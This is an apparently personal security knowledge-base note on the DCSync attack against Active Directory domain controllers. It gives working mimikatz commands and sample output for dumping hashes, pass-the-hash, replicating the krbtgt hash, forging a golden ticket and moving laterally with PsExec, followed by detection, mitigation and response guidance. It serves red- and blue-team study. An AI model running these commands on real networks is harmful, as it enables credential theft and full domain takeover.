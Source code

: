 Domain Controller Synchronization

To read : 
[[MS-DRSR - Directory Replication Service Remote Protocol]]

Source : 
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync
https://www.netwrix.com/privilege_escalation_using_mimikatz_dcsync.html
https://attack.mitre.org/techniques/T1003/006/

Adversary simulate the behavior's of a domain controller (DC) and retrieve password data via domain replication.
Use of the protocol [[MS-DRSR - Directory Replication Service Remote Protocol]] to simulate the behavior of a domain controller and ask other domain controllers to replicate information

A domain controller may request an update for a specific object, like an account, with the `IDL_DRSGetNCChanges` API.

Luckily for us, the domain controller receiving a request for an update **does not verify that the request came from a known domain controller**, but **only that the associated SID has appropriate privileges**.

If we attempt to issue a **rogue update request from a user who is a member of the Domain Admins group** to a domain controller , it will succeed.

Can be used to retrieve the KRBTGT hash

### Known permissions to achieve DC Sync 
Administrators, Domain Admins and Enterprise Admins have the rights required to execute a DCSync attack.
- The “[**DS-Replication-Get-Changes**](https://msdn.microsoft.com/en-us/library/ms684354(v=vs.85).aspx)” extended right
    - **CN:** DS-Replication-Get-Changes
    - **GUID:** 1131f6aa-9c07-11d1-f79f-00c04fc2dcd
- The “[**Replicating Directory Changes All**](https://msdn.microsoft.com/en-us/library/ms684355(v=vs.85).aspx)” extended right
    - **CN:** DS-Replication-Get-Changes-All
    - **GUID:** 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
- The “[**Replicating Directory Changes In Filtered Set**](https://msdn.microsoft.com/en-us/library/hh338663(v=vs.85).aspx)” extended right (this one isn’t always needed but we can add it just in case :)
    - **CN:** DS-Replication-Get-Changes-In-Filtered-Set
    - **GUID:** 89e95b76-444d-4c62-991a-0facbeda640c

### Attack process
1. The attacker discovers a domain controller to request replication.
2. The attacker requests user replication using the [GetNCChanges](https://wiki.samba.org/index.php/DRSUAPI)
3. The DC returns replication data to the requestor, including password hashes.

## Step of DCSYNC

### Get account with replication permission

Example with pass the hash
```powershell
PS> .\mimikatz.exe "privilege::debug" "sekurlsa::msv"
mimikatz # sekurlsa::msv
 
Authentication Id : 0 ; 4018372 (00000000:003d50c4)
Session           : RemoteInteractive from 2
User Name         : PrivUser1
Domain            : Domain
Logon Server      : DC1
Logon Time        : 15/07/2020 20:28:33
SID               : S-1-5-21-5840559-2756745051-1363507867-1105
        msv :
         [00000003] Primary
         * Username : PrivUser1
         * Domain   : Domain
         * NTLM     : eed224b4784bb040aab50b8856fe9f02
         * SHA1     : 42f95dd2a124ceea737c42c06ce7b7cdfbf0ad4b
         * DPAPI    : eb62f5bb2cc136b30a19c1d11b81dc77
 
PS> .\mimikatz.exe "sekurlsa::pth /user:PrivUser1 /ntlm:eed224b4784bb040aab50b8856fe9f02 /domain:domain.com"
 
user    : PrivUser1
domain  : Domain.com
program : cmd.exe
impers. : no
NTLM    : eed224b4784bb040aab50b8856fe9f02
  |  PID  6020
  |  TID  3336
  |  LSA Process is now R/W
  |  LUID 0 ; 14438952 (00000000:00dc5228)
  \_ msv1_0   - data copy @ 0000025C281A86C0 : OK !
  \_ kerberos - data copy @ 0000025C27D08608
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000025C287FF6A8 (32) -> null
```

### Use the account to perform the replication

#### Using DSInternal module


```powershell
Get-ADReplAccount -user Administrator -domain contoso –server dc01
```
#### Using mimikatz

```powershell
PS> .\mimikatz.exe "lsadump::dcsync /user:DOMAIN\krbtgt"
 
[DC] 'domain.com' will be the domain
[DC] 'DC1.DOMAIN.com' will be the DC server
[DC] 'DOMAIN\krbtgt' will be the user account
 
Object RDN           : krbtgt
 
** SAM ACCOUNT **
 
SAM Username         : krbtgt
User Principal Name  : krbtgt@DOMAIN.COM
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 09/03/2020 14:51:03
Object Security ID   : S-1-5-21-5840559-2756745051-1363507867-502
Object Relative ID   : 502
 
Credentials:
  Hash NTLM: 1b8cee51fd49e55e8c9c9004a4acc159
 
# ... output truncated ...
 
* Primary:Kerberos-Newer-Keys *
    Default Salt : DOMAIN.COMkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : ffa8bd983a5a03618bdf577c2d79a467265f140ba339b89cc0a9c1bfdb4747f5
      aes128_hmac       (4096) : 471644de05c4834cc6cbc06896210e7d
      des_cbc_md5       (4096) : 23861a94ea83a4cd
 
# ... output truncated ...
```

### Achieve additional objectif

Can made a [[Golden Tickets]] attack

```powershell
PS> .\mimikatz.exe "kerberos::golden /domain:domain.com /sid:S-1-5-21-5840559-2756745051-1363507867 /krbtgt:1b8cee51fd49e55e8c9c9004a4acc159 /user:Administrator /id:500 /ptt"
 
User      : Administrator
Domain    : domain.com (DOMAIN)
SID       : S-1-5-21-5840559-2756745051-1363507867
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 1b8cee51fd49e55e8c9c9004a4acc159 - rc4_hmac_nt
Lifetime  : 16/07/2020 13:53:58 ; 14/07/2030 13:53:58 ; 14/07/2030 13:53:58
-> Ticket : ** Pass The Ticket **
 
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated
 
Golden ticket for 'Administrator @ domain.com' successfully submitted for current session
 
PS> PSExec.exe \\fileserver1 powershell.exe
 
PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com
 
 
Microsoft Windows [Version 10.0.17763.1339]
(c) 2018 Microsoft Corporation. All rights reserved.
 
C:\Windows\system32>hostname
fileserver1
```

## Detect

Network detection :  `DRSUAPI` RPC requests for the operation `DsGetNCChanges` and compare the source host against a list of domain controllers. If the source host does not appear on that list, then a `DCSync` attack is suspected. However, without significant investment in packet analysis it is not possible to determine which objects were replicated

Windows : Event ID [4662](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4662) in the subcategory [Audit Directory Service Access](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-directory-service-access) audits basic information about users performing operations within Active Directory for events specified in an object’s [system access-control list (SACL)](https://docs.microsoft.com/en-us/windows/win32/ad/retrieving-an-objectampaposs-sacl).  
  
Using this event, it is possible to see when a user exercises their Replicating Directory Changes All extended right by filtering the properties field to include `{1131f6ad-9c07-11d1-f79f-00c04fc2dcd2}` which is the [control access rights GUID](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1522b774-6464-41a3-87a5-1e5633c3fbbb) for replicating directory changes.  
  
However, Active Directory event logs only reveal which objects were replicated when [diagnostic logging](https://support.microsoft.com/en-gb/help/314980/how-to-configure-active-directory-and-lds-diagnostic-event-logging) is enabled. Diagnostic logging can have performance impact and is not likely suitable for long-term production use.

## Mitigate

- Alert in real time on changes to replication permissions.
- Routinely audit the need for replication permissions and aggressively enforce the principle of least privilege.
- If a legitimate need for replication permissions exists, adopt compensating controls, such as login restrictions and enhanced auditing, to mitigate the risk of credential theft.
- Do not allow users to possess administrative privileges across security boundaries. This greatly reduces the ability of an adversary to escalate their privileges.

## Response

- Activate the incident response process and alert the response team
- Reset the password of the user account that performed the unauthorized DCSync and optionally disable the user to a) force instantaneous replication to all domain controllers and b) disrupt the adversary’s use of that account
- Quarantine the impacted machines for forensic investigation, as well as eradication and recovery activities
- Determine which account’s credentials were replicated:
    - If only specific users were replicated, reset the passwords for those users.
    - If the entire domain or the `krbtgt` user was replicated, activate your incident response plan for total Active Directory compromise which should include resetting (twice) the password of the krbtgt account.